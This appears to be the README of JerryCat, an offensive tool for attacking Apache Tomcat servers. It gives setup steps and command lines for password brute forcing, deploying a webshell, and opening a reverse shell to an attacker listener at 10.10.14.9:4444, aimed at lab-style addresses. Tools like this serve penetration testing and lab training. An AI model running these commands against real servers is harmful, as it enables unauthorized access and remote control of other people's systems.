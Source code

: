 <h1 align="center">JerryCat 🐭<h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0-orange.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] Brute Force (brute)
 - [x] Webshell (exec)
 - [x] Reverse shell (reverse)

## Setup ✨

Clone & install dependencies
```sh
git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
**without** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -P wordlists/password-list-common-tomcat.txt
```
**with** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -U /path/to/user/list -P wordlists/password-list-common-tomcat.txt
```

## Usage - Authenticated attack

### Webshell
```sh
python3 jerrycat.py exec http://10.10.10.95:8080/ -u tomcat -p s3cret
```

### Reverse shell
```sh
python3 jerrycat.py reverse http://10.10.10.95:8080/ -u tomcat -p s3cret --lhost 10.10.14.9 --lport 4444
```



